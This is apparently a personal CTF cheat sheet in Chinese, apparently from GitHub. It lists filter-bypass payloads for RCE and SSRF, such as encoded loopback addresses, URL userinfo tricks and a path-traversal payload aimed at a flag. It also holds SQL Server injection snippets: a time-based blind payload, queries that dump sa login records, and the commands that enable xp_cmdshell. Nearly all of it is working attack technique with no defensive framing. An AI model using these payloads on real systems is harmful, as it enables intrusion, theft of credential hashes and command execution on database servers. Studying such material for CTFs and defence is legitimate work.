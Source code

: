 
# Web

## RCE 命令绕过

包含 www.baidu.com 通过 http://user:pass@host 格式绕过16进制/8进制

`www.baidu.com@127.0.0.2`

绕过 127.0.0.1 , 2-127都可以, 8进制
```txt
127.0.0.2
...
127.0.0.127

curl 127.0.0.0x02
ping 0x7F.0x00.0x00.0x01
ping 0x7F000001
ping 0177.0000.0000.0001
```

## SSRF

1. 不存在路径绕过

`url=/http/../flag`

2. 通过127.0.0.2 ... 127


## curl 使用
curl -i -L
```txt
-i, --include       Incluude protocol response headers in the output
-L, --location      Follow redirects
```


# SQL 注入

## SQL Server
https://www.w3schools.com/sql/sql_ref_sqlserver.asp

```sql
-- db name
Select Name From Master..SysDataBases Where DbId=(Select Dbid From Master..SysProcesses Where Spid = @@spid)
-- stack query
-- if else
SELECT IIF(500<1000, 'YES', 'NO');
if (1=1) waitfor delay '00:00:1' else select 2
-- blind
?id=1' waitfor delay '00:00:2'--'

-- current-user
select CURRENT_USER;
select SYSTEM_USER;
select USER_NAME();

-- functions
ascii,char,charindex,concat,concat with +,concat_ws,datalength,difference,format,left,len,lower,ltrim,nchar,patindex,quotename,replace,replicate,reverse,right,rtrim,soundex,space,str,stuff,substring,translate,trim,unicode,upper


-- sa passwords
select *  FROM master.sys.sql_logins
select *  FROM [master].[sys].[sql_logins]
SELECT HOST_NAME()  -- 主机名
SELECT HOST_NAME() AS HostName, SUSER_NAME() LoggedInUser -- SUSER_NAME sa
-- 在master - 视图里
```

启动 xp_cmdshell
```
sp_configure 'show advanced options',1
reconfigure
go
sp_configure 'xp_cmdshell',1
reconfigure
go
```